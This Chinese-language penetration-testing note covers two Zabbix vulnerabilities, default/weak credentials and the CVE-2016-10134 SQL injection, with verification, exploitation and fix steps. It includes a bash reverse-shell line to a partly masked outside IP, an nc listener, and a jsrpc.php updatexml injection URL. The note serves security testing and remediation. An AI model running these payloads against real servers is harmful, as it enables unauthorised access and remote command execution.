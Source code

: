 # zabbix
## zabbix弱口令漏洞
### 漏洞说明
运维人员在初次安装zabbix时候，zabbix默认的口令为Admin:zabbix，以及存在guest密码为空，没有进行更改和禁止guest用户，导致zabbix存在致命漏洞，容易遭受攻击。
### 影响范围
/
### 验证方法
pocsuite: `poc_zabbix_weakpass`
### 利用方法
```bash
Zabbix server可以远程在agent的机器上执行任意命令
建立监控项
命令调用：bash -i >& /dev/tcp/45.xx.xxx.x1/6666 0>&1
命令调用：nc -lvp 6666
```
### 修复方式
1. zabbix放置在内网，不要暴露外网
2. 修改默认的口令密码
3. 禁止guest用户

## zabbix SQL注入漏洞 CVE-2016-10134
### 漏洞说明

### 影响范围
- 2.2.x
- 3.3.0-3.03

### 验证方法
**手工验证**:通过jsrpc.php触发，且无需登录：`http://your-ip:yourport/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`
**pocsuite**:
poc_zabbix_sqlinject.py

### 利用方法
/

### 修复方式
禁用guest账号
升级zabbix版本